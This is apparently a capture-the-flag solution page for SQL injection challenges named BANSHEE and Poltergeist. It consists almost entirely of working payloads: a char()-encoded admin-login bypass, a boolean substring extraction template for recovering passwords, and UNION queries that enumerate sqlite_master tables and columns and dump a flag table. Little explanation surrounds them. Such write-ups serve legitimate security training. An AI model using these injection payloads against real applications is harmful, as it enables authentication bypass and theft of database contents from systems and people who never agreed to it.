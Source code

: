 payload : id='\&pw=or id = char(0x61,0x64,0x6d,0x69,0x6e)-- -

## BANSHEE(boolean)

payload: 'or 1=1 and substr({pw},1,{i}) = '{j}' and id ='admin'-- -

## Poltergeist(sqlite3)

table:

' UNION select tbl\_name from sqlite\_master where tbl\_name like 'flag\_%'--

<figure><img src=".gitbook/assets/image (3) (2) (1).png" alt=""><figcaption></figcaption></figure>

column:

' union SELECT sql FROM sqlite\_master WHERE tbl\_name = 'flag\_70c81d99' -- -

<figure><img src=".gitbook/assets/image (2) (2).png" alt=""><figcaption></figcaption></figure>

flag

' union SELECT flag\_0876285c FROM flag\_70c81d99 -- -

<figure><img src=".gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

